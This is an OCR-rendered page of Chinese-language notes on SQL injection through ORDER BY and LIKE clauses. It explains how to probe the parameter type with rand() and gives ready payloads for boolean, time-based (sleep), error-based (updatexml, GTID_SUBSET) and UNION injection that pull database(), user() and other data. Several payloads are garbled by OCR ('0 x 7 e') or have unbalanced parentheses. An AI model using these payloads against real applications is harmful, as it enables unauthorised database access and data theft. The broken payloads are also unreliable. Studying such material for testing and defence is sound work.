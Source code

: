 ## **orderby**
orderby可能出现三种场景：
```
order by 1，通过第几个字段来排序。变量是数值，可预编译，变量可以是字符。
order by "name"，通过某个字段名排序。变量是字符串，不可预编译。

group by sex order by count(*)，分组后通过分组后的数排序，相当于新增了一个字段，通过这个字段排序。一般不可控，排除注入。
```

orderby注入：可控参数判断过滤后类型是数值还是字符。
```
传入rand()在数字型中，每次刷新会显示不同的排序结果
当在字符型中用?sort=rand(),则不会有效果,排序不会改变

因此用rand()可判断注入点过滤后类型。
```
<https://www.cnblogs.com/1ink/p/15107674.html>
orderby利用：因为排序差异可使用布尔盲注，或者时间盲注，不可以联合注入，因为orderby必须在一个sql语句最后。
```
//?order=if(表达式,id,loginName)
//表达式为true时,根据id排序
//表达式为false时,根据loginName排序

order by sleep(5) 不可。
select * from users order by if(concat(0 x 7 e,user(), 0 x 7 e), 1,sleep(3));
```
报错回显
```
order by updatexml(1, if (1=2,1,concat(0 x 7 e,database(), 0 x 7 e)), 1);
order by GTID_SUBSET((version(),1)))
```


^
## **like**
like可以使用联合注入。
like一般也在where语句之后。
```
1、where name like xx
where name like 'admin' union select 1,2,3,database()
'admin'+union+select+sleep(15)

2、where name like "xx"
where name like " admin" union select 1,2,3,database()-- "

admin'+union+select+sleep(15)--+
```